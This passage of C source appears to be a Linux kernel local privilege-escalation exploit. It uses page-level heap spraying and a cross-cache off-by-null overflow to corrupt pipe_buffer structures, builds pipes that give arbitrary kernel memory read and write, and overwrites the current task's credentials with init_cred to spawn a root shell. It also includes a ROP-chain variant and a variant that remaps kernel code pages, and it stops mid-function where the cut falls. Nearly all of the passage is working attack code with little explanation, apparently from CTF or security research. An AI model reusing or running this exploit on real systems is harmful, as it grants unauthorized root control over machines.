    usleep(10000);

    return ret;
}

/* the child, handler for commands from the pipe */
void spray_cmd_handler(void)
{
    struct pgv_page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;

    /* create an isolate namespace*/
    unshare_setup();

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(req.size, req.nr);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf(ERROR_MSG("[x] invalid request: ") "%d\n", req.cmd);
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}

/* init pgv-exploit subsystem :) */
void prepare_pgv_system(void)
{
    /* pipe for pgv */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    
    /* child process for pages spray */
    if (!fork()) {
        spray_cmd_handler();
    }
}

/**
 * IV - config for page-level heap spray and heap fengshui
**/

#define PIPE_SPRAY_NUM 200

#define PGV_1PAGE_SPRAY_NUM 0x20

#define PGV_4PAGES_START_IDX PGV_1PAGE_SPRAY_NUM
#define PGV_4PAGES_SPRAY_NUM 0x40

#define PGV_8PAGES_START_IDX (PGV_4PAGES_START_IDX + PGV_4PAGES_SPRAY_NUM)
#define PGV_8PAGES_SPRAY_NUM 0x40

int pgv_1page_start_idx = 0;
int pgv_4pages_start_idx = PGV_4PAGES_START_IDX;
int pgv_8pages_start_idx = PGV_8PAGES_START_IDX;

/* spray pages in different size for various usages */
void prepare_pgv_pages(void)
{
    /**
     * We want a more clear and continuous memory there, which require us to 
     * make the noise less in allocating order-3 pages.
     * So we pre-allocate the pages for those noisy objects there.
     */
    log_info("[*] spray pgv order-0 pages...");
    for (int i = 0; i < PGV_1PAGE_SPRAY_NUM; i++) {
        if (alloc_page(i, 0x1000, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    log_info("[*] spray pgv order-2 pages...");
    for (int i = 0; i < PGV_4PAGES_SPRAY_NUM; i++) {
        if (alloc_page(PGV_4PAGES_START_IDX + i, 0x1000 * 4, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    /* spray 8 pages for page-level heap fengshui */
    log_info("[*] spray pgv order-3 pages...");
    for (int i = 0; i < PGV_8PAGES_SPRAY_NUM; i++) {
        /* a socket need 1 obj: sock_inode_cache, 19 objs for 1 slub on 4 page*/
        if (i % 19 == 0) {
            free_page(pgv_4pages_start_idx++);
        }

        /* a socket need 1 dentry: dentry, 21 objs for 1 slub on 1 page */
        if (i % 21 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }

        /* a pgv need 1 obj: kmalloc-8, 512 objs for 1 slub on 1 page*/
        if (i % 512 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }

        if (alloc_page(PGV_8PAGES_START_IDX + i, 0x1000 * 8, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    puts("");
}

/* for pipe escalation */
#define SND_PIPE_BUF_SZ 96
#define TRD_PIPE_BUF_SZ 192

int pipe_fd[PIPE_SPRAY_NUM][2];
int orig_pid = -1, victim_pid = -1;
int snd_orig_pid = -1, snd_vicitm_pid = -1;
int self_2nd_pipe_pid = -1, self_3rd_pipe_pid = -1, self_4th_pipe_pid = -1;

struct pipe_buffer info_pipe_buf;

int extend_pipe_buffer_to_4k(int start_idx, int nr)
{
    for (int i = 0; i < nr; i++) {
        /* let the pipe_buffer to be allocated on order-3 pages (kmalloc-4k) */
        if (i % 8 == 0) {
            free_page(pgv_8pages_start_idx++);
        }

        /* a pipe_buffer on 1k is for 16 pages, so 4k for 64 pages */
        if (fcntl(pipe_fd[start_idx + i][1], F_SETPIPE_SZ, 0x1000 * 64) < 0) {
            printf("[x] failed to extend %d pipe!\n", start_idx + i);
            return -1;
        }
    }

    return 0;
}

/**
 *  V - FIRST exploit stage - cross-cache overflow to make page-level UAF
*/

void corrupting_first_level_pipe_for_page_uaf(void)
{
    char buf[0x1000];

    log_info("[*] spray pipe_buffer...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i ++) {

        if (pipe(pipe_fd[i]) < 0) {
            printf("[x] failed to alloc %d pipe!", i);
            err_exit("FAILED to create pipe!");
        }
    }

    /* spray pipe_buffer on order-2 pages, make vul-obj slub around with that.*/

    log_info("[*] exetend pipe_buffer...");
    if (extend_pipe_buffer_to_4k(0, PIPE_SPRAY_NUM / 2) < 0) {
        err_exit("FAILED to extend pipe!");
    }

    log_info("[*] spray vulnerable 2k obj...");
    free_page(pgv_8pages_start_idx++);
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_alloc(i, 8, "arttnba3");
    }

    log_info("[*] exetend pipe_buffer...");
    if (extend_pipe_buffer_to_4k(PIPE_SPRAY_NUM / 2, PIPE_SPRAY_NUM / 2) < 0) {
        err_exit("FAILED to extend pipe!");
    }

    log_info("[*] allocating pipe pages...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        write(pipe_fd[i][1], "arttnba3", 8);
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], "arttnba3", 8);
        write(pipe_fd[i][1], "arttnba3", 8);  /* prevent pipe_release() */
    }

    /* try to trigger cross-cache overflow */
    log_info("[*] trigerring cross-cache off-by-null...");
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_append(i, KCACHE_SIZE - 8, buf);
    }

    /* checking for cross-cache overflow */
    log_info("[*] checking for corruption...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        char a3_str[0x10];
        int nr;

        memset(a3_str, '\0', sizeof(a3_str));
        read(pipe_fd[i][0], a3_str, 8);
        read(pipe_fd[i][0], &nr, sizeof(int));
        if (!strcmp(a3_str, "arttnba3") && nr != i) {
            orig_pid = nr;
            victim_pid = i;
            printf(SUCCESS_MSG("[+] Found victim:") " %d "
                   SUCCESS_MSG(", orig: ") "%d\n\n", 
                   victim_pid, orig_pid);
            break;
        }
    }

    if (victim_pid == -1) {
        err_exit("FAILED to corrupt pipe_buffer!");
    }
}

void corrupting_second_level_pipe_for_pipe_uaf(void)
{
    size_t buf[0x1000];
    size_t snd_pipe_sz = 0x1000 * (SND_PIPE_BUF_SZ/sizeof(struct pipe_buffer));

    memset(buf, '\0', sizeof(buf));

    /* let the page's ptr at pipe_buffer */
    write(pipe_fd[victim_pid][1], buf, SND_PIPE_BUF_SZ*2 - 24 - 3*sizeof(int));

    /* free orignal pipe's page */
    log_info("[*] free original pipe...");
    close(pipe_fd[orig_pid][0]);
    close(pipe_fd[orig_pid][1]);

    /* try to rehit victim page by reallocating pipe_buffer */
    log_info("[*] fcntl() to set the pipe_buffer on victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid) {
            continue;
        }

        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, snd_pipe_sz) < 0) {
            printf("[x] failed to resize %d pipe!\n", i);
            err_exit("FAILED to re-alloc pipe_buffer!");
        }
    }

    /* read victim page to check whether we've successfully hit it */
    read(pipe_fd[victim_pid][0], buf, SND_PIPE_BUF_SZ - 8 - sizeof(int));
    read(pipe_fd[victim_pid][0], &info_pipe_buf, sizeof(info_pipe_buf));

    printf(INFO_MSG("[?] info_pipe_buf->page: ") "%p\n" 
           INFO_MSG("[?] info_pipe_buf->ops: ") "%p\n", 
           info_pipe_buf.page, info_pipe_buf.ops);

    if ((size_t) info_pipe_buf.page < KERNEL_DIRECT_PHYSMEM_MAP_BASE
        || (size_t) info_pipe_buf.ops < KERNEL_BASE) {
        err_exit("FAILED to re-hit victim page!");
    }

    log_success("[+] Successfully to hit the UAF page!");
    printf(SUCCESS_MSG("[+] Got page leak: ") "%p\n", info_pipe_buf.page);
    puts("");

    /* construct a second-level page uaf */
    log_info("[*] construct a second-level uaf pipe page...");
    info_pipe_buf.page = (struct page*) ((size_t) info_pipe_buf.page + 0x40);
    write(pipe_fd[victim_pid][1], &info_pipe_buf, sizeof(info_pipe_buf));

    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        int nr;

        if (i == orig_pid || i == victim_pid) {
            continue;
        }

        read(pipe_fd[i][0], &nr, sizeof(nr));
        if (nr < PIPE_SPRAY_NUM && i != nr) {
            snd_orig_pid = nr;
            snd_vicitm_pid = i;
            printf(SUCCESS_MSG("[+] Found second-level victim: ")"%d "
                   SUCCESS_MSG(", orig: ")"%d\n", 
                   snd_vicitm_pid, snd_orig_pid);
            break;
        }
    }

    if (snd_vicitm_pid == -1) {
        err_exit("FAILED to corrupt second-level pipe_buffer!");
    }
}

/**
 * VI - SECONDARY exploit stage: build pipe for arbitrary read & write
*/

void building_self_writing_pipe(void)
{
    size_t buf[0x1000];
    size_t trd_pipe_sz = 0x1000 * (TRD_PIPE_BUF_SZ/sizeof(struct pipe_buffer));
    struct pipe_buffer evil_pipe_buf;
    struct page *page_ptr;

    memset(buf, 0, sizeof(buf));

    /* let the page's ptr at pipe_buffer */
    write(pipe_fd[snd_vicitm_pid][1], buf, TRD_PIPE_BUF_SZ - 24 -3*sizeof(int));

    /* free orignal pipe's page */
    log_info("[*] free second-level original pipe...");
    close(pipe_fd[snd_orig_pid][0]);
    close(pipe_fd[snd_orig_pid][1]);

    /* try to rehit victim page by reallocating pipe_buffer */
    log_info("[*] fcntl() to set the pipe_buffer on second-level victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid) {
            continue;
        }

        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, trd_pipe_sz) < 0) {
            printf("[x] failed to resize %d pipe!\n", i);
            err_exit("FAILED to re-alloc pipe_buffer!");
        }
    }

    /* let a pipe->bufs pointing to itself */
    log_info("[*] hijacking the 2nd pipe_buffer on page to itself...");
    evil_pipe_buf.page = info_pipe_buf.page;
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.ops = info_pipe_buf.ops;
    evil_pipe_buf.flags = info_pipe_buf.flags;
    evil_pipe_buf.private = info_pipe_buf.private;

    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_2nd_pipe_pid = i;
            printf(SUCCESS_MSG("[+] Found self-writing pipe: ") "\%d\n", 
                   self_2nd_pipe_pid);
            break;
        }
    }

    if (self_2nd_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    /* overwrite the 3rd pipe_buffer to this page too */
    log_info("[*] hijacking the 3rd pipe_buffer on page to itself...");
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;

    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid
            || i == self_2nd_pipe_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_3rd_pipe_pid = i;
            printf(SUCCESS_MSG("[+] Found another self-writing pipe: ") "%d\n",
                   self_3rd_pipe_pid);
            break;
        }
    }

    if (self_3rd_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    /* overwrite the 4th pipe_buffer to this page too */
    log_info("[*] hijacking the 4th pipe_buffer on page to itself...");
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;

    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid
            || i == self_2nd_pipe_pid || i== self_3rd_pipe_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_4th_pipe_pid = i;
            printf(SUCCESS_MSG("[+] Found another self-writing pipe: ") "%d\n",
                   self_4th_pipe_pid);
            break;
        }
    }

    if (self_4th_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    puts("");
}

struct pipe_buffer evil_2nd_buf, evil_3rd_buf, evil_4th_buf;
char temp_zero_buf[0x1000]= { '\0' };

/**
 * @brief Setting up 3 pipes for arbitrary read & write.
 * We need to build a circle there for continuously memory seeking:
 * - 2nd pipe to search
 * - 3rd pipe to change 4th pipe
 * - 4th pipe to change 2nd and 3rd pipe
**/
void setup_evil_pipe(void)
{
    /* init the initial val for 2nd,3rd and 4th pipe, for recovering only */
    memcpy(&evil_2nd_buf, &info_pipe_buf, sizeof(evil_2nd_buf));
    memcpy(&evil_3rd_buf, &info_pipe_buf, sizeof(evil_3rd_buf));
    memcpy(&evil_4th_buf, &info_pipe_buf, sizeof(evil_4th_buf));

    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0xff0;

    /* hijack the 3rd pipe pointing to 4th */
    evil_3rd_buf.offset = TRD_PIPE_BUF_SZ * 3;
    evil_3rd_buf.len = 0;
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    evil_4th_buf.offset = TRD_PIPE_BUF_SZ;
    evil_4th_buf.len = 0;
}

ssize_t arbitrary_read_by_pipe(struct page *page_to_read, void *dst)
{
    /* page to read */
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0x1ff8;
    evil_2nd_buf.page = page_to_read;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ-sizeof(evil_2nd_buf));
    
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    /* read out data */
    return read(pipe_fd[self_2nd_pipe_pid][0], dst, 0xfff);
}

void arbitrary_write_by_pipe(struct page *page_to_write, void *src, size_t len)
{
    /* page to write */
    evil_2nd_buf.page = page_to_write;
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read, 3rd pipe point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));
    
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    /* write data into dst page */
    write(pipe_fd[self_2nd_pipe_pid][1], src, len);
}

/**
 * VII - FINAL exploit stage with arbitrary read & write
*/

size_t *tsk_buf, current_task_page, current_task, parent_task, buf[0x1000];


void info_leaking_by_arbitrary_pipe()
{
    size_t *comm_addr;
    ssize_t rlen;

    memset(buf, 0, sizeof(buf));

    log_info("[*] Setting up kernel arbitrary read & write...");
    setup_evil_pipe();

    /**
     * KASLR's granularity is 256MB, and pages of size 0x1000000 is 1GB MEM,
     * so we can simply get the vmemmap_base like this in a SMALL-MEM env.
     * For MEM > 1GB, we can just find the secondary_startup_64 func ptr,
     * which is located on physmem_base + 0x9d000, i.e., vmemmap_base[156] page.
     * If the func ptr is not there, just vmemmap_base -= 256MB and do it again.
     * 
     * What's more is that, if we couldn't read the memory while looping,
     * it means that we've just locate with 256MB in front of the vmemmap_base,
     * therefore we can add the KASLR_GRANULARITY back and get the real base.
     */
    vmemmap_base = (size_t) info_pipe_buf.page & KASLR_MASK;
    for (;;) {
        rlen = arbitrary_read_by_pipe(
            (struct page*) (vmemmap_base + 157 * 0x40),
            buf
        );

        if (buf[0] > KERNEL_BASE && ((buf[0] & 0xfff) < 0x100)) {
            kernel_base = buf[0] & PAGE_MASK;
            kernel_offset = kernel_base - KERNEL_BASE;
            printf("\033[32m\033[1m[+] Found kernel base: \033[0m0x%lx\n"
                   "\033[32m\033[1m[+] Kernel offset: \033[0m0x%lx\n", 
                   kernel_base, kernel_offset);
            break;
        }

        if (rlen < 0) {
            vmemmap_base += KASLR_GRANULARITY;
            break;
        }

        vmemmap_base -= KASLR_GRANULARITY;
    }
    printf(SUCCESS_MSG("[+] vmemmap_base: ") "0x%lx\n\n", vmemmap_base);

    /* now seeking for the task_struct in kernel memory */
    log_info("[*] Seeking task_struct in memory...");

    prctl(PR_SET_NAME, "arttnba3pwnn");

    /**
     * For a machine with MEM less than 256M, we can simply get the:
     *      page_offset_base = heap_leak & 0xfffffffff0000000;
     * But that's not always accurate, espacially on a machine with MEM > 256M.
     * So we need to find another way to calculate the page_offset_base.
     * 
     * Luckily the task_struct::ptraced points to itself, so we can get the
     * page_offset_base by vmmemap and current task_struct as we know the page.
     * 
     * Note that the offset of different filed should be referred to your env.
     */
    for (int i = 0; 1; i++) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + i * 0x40), buf);
    
        comm_addr = memmem(buf, 0xf00, "arttnba3pwnn", 12);
        if (comm_addr
            /* task_struct::cred */
            && (comm_addr[-2] > KERNEL_DIRECT_PHYSMEM_MAP_BASE)
            /* task_struct::real_cred */
            && (comm_addr[-3] > KERNEL_DIRECT_PHYSMEM_MAP_BASE)
            /* task_struct::read_parent */
            && (comm_addr[-57] > KERNEL_DIRECT_PHYSMEM_MAP_BASE)
            /* task_struct::parent */
            && (comm_addr[-56] > KERNEL_DIRECT_PHYSMEM_MAP_BASE)) {

            /* task_struct::read_parent */
            parent_task = comm_addr[-57];

            /* task_struct::ptraced */
            current_task = comm_addr[-50] - 2528;

            page_offset_base = (comm_addr[-50] & PAGE_MASK) - i * 0x1000;
            page_offset_base &= KASLR_MASK;

            printf(SUCCESS_MSG("[+] Found task_struct on page: ") "%p\n",
                   (struct page*) (vmemmap_base + i * 0x40));
            printf(SUCCESS_MSG("[+] page_offset_base: ") "0x%lx\n",
                   page_offset_base);
            printf(SUCCESS_MSG("[*] current task_struct's addr: ") "0x%lx\n\n",
                   current_task);
            break;
        }
    }
}

/**
 * @brief find the init_task and copy something to current task_struct
*/
void privilege_escalation_by_task_overwrite(void)
{
    /* finding the init_task, the final parent of every task */
    log_info("[*] Seeking for init_task...");

    for (;;) {
        size_t ptask_page_addr = direct_map_addr_to_page_addr(parent_task);

        tsk_buf = (size_t*) ((size_t) buf + (parent_task & 0xfff));

        arbitrary_read_by_pipe((struct page*) ptask_page_addr, buf);
        arbitrary_read_by_pipe((struct page*) (ptask_page_addr+0x40),&buf[512]);

        /* task_struct::real_parent */
        if (parent_task == tsk_buf[309]) {
            break;
        }

        parent_task = tsk_buf[309];
    }

    init_task = parent_task;
    init_cred = tsk_buf[363];
    init_nsproxy = tsk_buf[377];

    printf(SUCCESS_MSG("[+] Found init_task: ") "0x%lx\n", init_task);
    printf(SUCCESS_MSG("[+] Found init_cred: ") "0x%lx\n", init_cred);
    printf(SUCCESS_MSG("[+] Found init_nsproxy:") "0x%lx\n",init_nsproxy);

    /* now, changing the current task_struct to get the full root :) */
    log_info("[*] Escalating ROOT privilege now...");

    current_task_page = direct_map_addr_to_page_addr(current_task);

    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);

    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));
    tsk_buf[363] = init_cred;
    tsk_buf[364] = init_cred;
    tsk_buf[377] = init_nsproxy;

    arbitrary_write_by_pipe((struct page*) current_task_page, buf, 0xff0);
    arbitrary_write_by_pipe((struct page*) (current_task_page+0x40),
                            &buf[512], 0xff0);

    log_success("[+] Done.\n");
    log_info("[*] checking for root...");

    get_root_shell();
}

#define PTE_OFFSET 12
#define PMD_OFFSET 21
#define PUD_OFFSET 30
#define PGD_OFFSET 39

#define PT_ENTRY_MASK 0b111111111UL
#define PTE_MASK (PT_ENTRY_MASK << PTE_OFFSET)
#define PMD_MASK (PT_ENTRY_MASK << PMD_OFFSET)
#define PUD_MASK (PT_ENTRY_MASK << PUD_OFFSET)
#define PGD_MASK (PT_ENTRY_MASK << PGD_OFFSET)

#define PTE_ENTRY(addr) ((addr >> PTE_OFFSET) & PT_ENTRY_MASK)
#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)
#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)
#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)

#define PAGE_ATTR_RW (1UL << 1)
#define PAGE_ATTR_NX (1UL << 63)

size_t pgd_addr, mm_struct_addr, *mm_struct_buf;
size_t stack_addr, stack_addr_another;
size_t stack_page, mm_struct_page;

size_t vaddr_resolve(size_t pgd_addr, size_t vaddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr, pte_addr, pte_val;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    pte_addr = (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pte_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf);
    pte_val = (buf[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);

    return pte_val;
}

size_t vaddr_resolve_for_3_level(size_t pgd_addr, size_t vaddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    return (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
}

void vaddr_remapping(size_t pgd_addr, size_t vaddr, size_t paddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr, pte_addr;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    pte_addr = (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pte_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf);
    buf[PTE_ENTRY(vaddr)] = paddr | 0x8000000000000867; /* mark it writable */
    arbitrary_write_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf,
                            0xff0);
}

void pgd_vaddr_resolve(void)
{
    log_info("[*] Reading current task_struct...");

    /* read current task_struct */
    current_task_page = direct_map_addr_to_page_addr(current_task);
    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);

    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));
    stack_addr = tsk_buf[4];
    mm_struct_addr = tsk_buf[292];

    printf(INFO_MSG("[*] kernel stack's addr: ") "0x%lx\n",stack_addr);
    printf(INFO_MSG("[*] mm_struct's addr: ") "0x%lx\n",mm_struct_addr);

    mm_struct_page = direct_map_addr_to_page_addr(mm_struct_addr);

    printf(INFO_MSG("[*] mm_struct's page:") "0x%lx\n",mm_struct_page);

    /* read mm_struct */
    arbitrary_read_by_pipe((struct page*) mm_struct_page, buf);
    arbitrary_read_by_pipe((struct page*) (mm_struct_page+0x40), &buf[512]);

    mm_struct_buf = (size_t*) ((size_t) buf + (mm_struct_addr & 0xfff));

    /* only this is a virtual addr, others in page table are all physical addr*/
    pgd_addr = mm_struct_buf[9];

    printf(
        SUCCESS_MSG("[+] Got kernel page table of current task: ")"0x%lx\n\n",
        pgd_addr
    );
}

/**
 * It may also be okay to write ROP chain on pipe_write's stack, if there's
 * no CONFIG_RANDOMIZE_KSTACK_OFFSET_DEFAULT(it can also be bypass by RETs). 
 * But what I want is a more novel and general exploitation that 
 * doesn't need any information about the kernel image. 
 * So just simply overwrite the task_struct is good :)
 * 
 * If you still want a normal ROP, refer to following codes.
*/

#define COMMIT_CREDS 0xffffffff811284e0
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff82201a90
#define INIT_CRED 0xffffffff83079ee8
#define POP_RDI_RET 0xffffffff810157a9
#define RET 0xffffffff810157aa

void privilege_escalation_by_rop(void)
{
    size_t rop[0x1000], idx = 0; 

redo:

    /* resolving some vaddr */
    pgd_vaddr_resolve();
    
    /* reading the page table directly to get physical addr of kernel stack*/
    log_info("[*] Reading page table...");

    /**
     * we'd like to write ROP chain directly onto the last page of kernel stack,
     * and the stack is in fact a VMALLOC area, which means that it might not be
     * physically continuous, therefore we calculate the last page directly
    **/
    stack_addr_another = vaddr_resolve(pgd_addr, stack_addr + PAGE_SIZE * 3);
    stack_addr_another &= (~PAGE_ATTR_NX); /* N/X bit */
    stack_addr_another += page_offset_base;

    printf(
        SUCCESS_MSG("[+] Got another virt addr of kernel stack: ") "0x%lx\n\n",
        stack_addr_another
    );

    /* construct the ROP */
    for (int i = 0; i < ((0x1000 - 0x100) / 8); i++) {
        rop[idx++] = RET + kernel_offset;
    }

    rop[idx++] = POP_RDI_RET + kernel_offset;
    rop[idx++] = INIT_CRED + kernel_offset;
    rop[idx++] = COMMIT_CREDS + kernel_offset;
    rop[idx++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE +54 + kernel_offset;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) get_root_shell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp & (~0xFUL);  /* stack balance */
    rop[idx++] = user_ss;

    stack_page = direct_map_addr_to_page_addr(stack_addr_another);

    log_info("[*] Hijacking current task's stack...");

    fflush(stdout);
    sleep(3);

    arbitrary_write_by_pipe((struct page*) stack_page, rop, 0xff0);

    /* if we get there, it means that our work failed, just retry... */
    goto redo;
}

void privilege_escalation_by_usma(void)
{
    #define NS_CAPABLE_SETID 0xffffffff810fd2a0

    char *kcode_map, *kcode_func;
    size_t dst_paddr, dst_vaddr, *rop, idx = 0;

    /* resolving some vaddr */
    pgd_vaddr_resolve();

    kcode_map = mmap((void*) 0x114514000, 0x2000, PROT_READ | PROT_WRITE, 
                     MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (!kcode_map) {
        err_exit("FAILED to create mmap area!");
    }

    /* because of lazy allocation, we need to write it manually */
    for (int i = 0; i < 8; i++) {
        kcode_map[i] = "arttnba3"[i];
        kcode_map[i + 0x1000] = "arttnba3"[i];
    }

    /* overwrite kernel code seg to exec shellcode directly :) */
    dst_vaddr = NS_CAPABLE_SETID + kernel_offset;
    printf(INFO_MSG("[*] vaddr of ns_capable_setid is: ") "0x%lx\n", dst_vaddr);

    dst_paddr = vaddr_resolve_for_3_level(pgd_addr, dst_vaddr);
    dst_paddr += 0x1000 * PTE_ENTRY(dst_vaddr);

    printf(
        SUCCESS_MSG("[+] Got ns_capable_setid's phys addr: ")"0x%lx\n\n",
        dst_paddr
    );

    /* remapping to our mmap area */
    vaddr_remapping(pgd_addr, 0x114514000, dst_paddr);
